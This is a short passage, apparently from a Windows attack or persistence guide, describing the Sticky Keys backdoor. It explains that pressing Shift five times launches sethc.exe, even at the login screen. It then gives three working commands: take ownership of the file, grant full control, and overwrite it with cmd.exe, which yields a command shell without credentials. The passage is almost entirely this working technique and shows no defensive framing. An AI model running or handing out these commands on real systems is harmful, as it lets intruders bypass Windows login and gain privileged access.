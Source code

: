 After pressing SHIFT 5 times, Windows will execute the binary in C:\Windows\System32\sethc.exe. If we are able to replace such binary for a payload of our preference, we can then trigger it with the shortcut. Interestingly, we can even do this from the login screen before inputting any credentials.

	takeown /f C:\Windows\System32\sethc.exe
	icacls C:\Windows\System32\sethc.exe /grant Administrator:F
	copy C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
